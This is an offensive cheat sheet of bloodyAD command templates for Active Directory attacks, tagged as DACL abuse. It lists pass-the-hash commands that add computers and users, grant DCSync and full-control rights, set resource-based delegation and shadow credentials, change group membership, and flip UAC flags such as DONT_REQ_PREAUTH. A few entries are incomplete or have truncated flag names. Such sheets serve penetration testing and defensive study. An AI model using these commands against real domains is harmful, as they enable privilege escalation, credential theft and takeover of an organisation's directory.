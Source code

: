 # bloodyAD
% windows, Active directory
#plateform/linux #target/remote  #cat/ATTACK/DACL-ABUSE

## add - add computer (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyAD --host <dc_fqdn> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> add computer  <computer_name|jubeaz> <computer_password|Zaebuj12345+->
```

## add - DCSync right (pth)
https://github.com/CravateRouge/bloodyAD
sAMAccountName, DN, GUID or SID of the trustee
```bash
bloodyAD --host <dc_fqdn> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> add  dcsync <trustee>
```

## add - DNS record (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyAD --host <dc_fqdn> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> add dnsRecord   
```
## add - full control (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyAD --host <dc_fqdn> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> add genericAll <target> <trustee>
```
## add - groupMember (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyAD --host <dc_fqdn> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> add  groupMember <group_sam> <target_sam>
```

## add - rbcd (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyAD --host <dc_fqdn> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> add  rbcd <target>  <source>
```

## add - shadowCredentials (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyAD --host <dc_fqdn> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> add  
```

## add - uac (pth)
https://github.com/CravateRouge/bloodyAD
SCRIPT
ACCOUNTDISABLE
HOMEDIR_REQUIRED
LOCKOUT
PASSWD_NOTREQD
PASSWD_CANT_CHANG
ENCRYPTED_TEXT_PWD_ALLOWED
TEMP_DUPLICATE_ACCOUNT
NORMAL_ACCOUNT
INTERDOMAIN_TRUST_ACCOUNT
WORKSTATION_TRUST_ACCOUNT
SERVER_TRUST_ACCOUNT
DONT_EXPIRE_PASSWORD
MNS_LOGON_ACCOUNT
SMARTCARD_REQUIRED
TRUSTED_FOR_DELEGATION
NOT_DELEGATED
USE_DES_KEY_ONLY
DONT_REQ_PREAUTH
PASSWORD_EXPIRED
TRUSTED_TO_AUTH_FOR_DELEGATION
PARTIAL_SECRETS_ACCOUN
```bash
bloodyAD --host <dc_fqdn> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> add uac <target_sAMAccountName> -f <uac_flag|DONT_REQUIRE_PREAUTH>
```

## add - user (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyAD --host <dc_fqdn> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> add user <sAMAccountName|jubeaz> <password|Zaebuj12345+-> 
```